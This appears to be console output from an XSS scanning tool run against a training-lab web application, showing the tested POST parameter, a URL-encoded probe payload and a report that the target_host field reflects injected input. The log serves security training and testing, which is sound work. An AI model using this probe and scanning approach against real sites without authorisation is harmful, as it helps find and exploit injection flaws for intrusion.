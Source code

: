 ```

 [ http://demo.ine.local/index.php?page=dns-lookup.php ]

---------------------------------------------

[!] Hashing: 

 [ 0cc305adb7da682e46f2f8c6ea2bceeb ] : [ target_host ]

---------------------------------------------

[*] Trying: 

http://demo.ine.local/index.php?page=dns-lookup.php (POST: target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS)

---------------------------------------------

[+] Vulnerable(s): 

 [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]

---------------------------------------------

=============================================
[*] Injection(s) Results:
=============================================

 [FOUND !!!] -> [ 0cc305adb7da682e46f2f8c6ea2bceeb ] : [ target_host ]

===========================================================================
[*] Final Results:
===========================================================================

- Injections: 1
- Failed: 0
- Successful: 1
- Accur: 100.0 %

===========================================================================
[*] List of XSS injections:
===========================================================================

-> CONGRATULATIONS: You have found: [ 1 ] possible XSS vector! ;-)

---------------------

[+] Target: http://demo.ine.local/index.php?page=dns-lookup.php | target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS
[+] Vector: [ target_host ]
[!] Method: URL
[*] Hash: 0cc305adb7da682e46f2f8c6ea2bceeb
[*] Payload: target_host=%22%3E0cc305adb7da682e46f2f8c6ea2bceeb&dns-lookup-php-submit-button=Lookup+DNS
[!] Vulnerable: [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]
[!] Status: XSS FOUND! [WITHOUT --reverse-check VALIDATION!] 
 -------------------------------------------------- 

```
